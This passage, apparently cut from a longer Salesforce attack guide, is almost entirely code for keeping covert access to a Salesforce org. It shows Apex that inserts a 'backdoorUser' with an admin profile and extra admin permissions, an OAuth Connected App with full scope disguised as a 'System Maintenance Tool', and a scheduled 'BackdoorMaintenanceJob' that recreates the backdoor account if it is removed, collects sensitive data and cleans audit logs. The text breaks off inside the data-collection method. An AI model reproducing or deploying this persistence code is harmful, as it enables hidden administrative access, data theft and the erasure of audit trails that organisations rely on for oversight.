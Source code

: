 ```apex
            ProfileId = adminProfile.Id,
            TimeZoneSidKey = 'America/New_York',
            LocaleSidKey = 'en_US',
            EmailEncodingKey = 'UTF-8',
            LanguageLocaleKey = 'en_US',
            IsActive = true
        );
        
        insert backdoorUser;
        
        // Assign additional permissions
        PermissionSet adminPermSet = [SELECT Id FROM PermissionSet WHERE Name = 'Custom_Admin_Access' LIMIT 1];
        PermissionSetAssignment psa = new PermissionSetAssignment(
            PermissionSetId = adminPermSet.Id,
            AssigneeId = backdoorUser.Id
        );
        insert psa;
    }
}
```

**Connected App Persistence**:
```xml
<!-- Register persistent OAuth application -->
<ConnectedApplication xmlns="http://soap.sforce.com/2006/04/metadata">
    <fullName>MaintenanceApp</fullName>
    <label>System Maintenance Tool</label>
    <contactEmail>maintenance@company.com</contactEmail>
    <description>Internal system maintenance application</description>
    <oauthConfig>
        <callbackUrl>https://maintenance.company.com/callback</callbackUrl>
        <scopes>Full</scopes>
        <consumerKey>HIDDEN_CONSUMER_KEY</consumerKey>
        <consumerSecret>HIDDEN_CONSUMER_SECRET</consumerSecret>
    </oauthConfig>
</ConnectedApplication>
```

**Scheduled Job Implantation**:
```apex
// Apex scheduled job for persistence
global class BackdoorMaintenanceJob implements Schedulable {
    global void execute(SchedulableContext sc) {
        // Maintain backdoor access
        maintainBackdoorUser();
        
        // Periodic data collection
        collectSensitiveData();
        
        // Clean up traces
        cleanAuditLogs();
    }
    
    private void maintainBackdoorUser() {
        List<User> backdoorUsers = [SELECT Id FROM User WHERE Username = 'maintenance@company-domain.com'];
        if (backdoorUsers.isEmpty()) {
            // Recreate backdoor if detected and removed
            PersistenceManager.createBackdoorUser();
        }
    }
    
    private void collectSensitiveData() {
```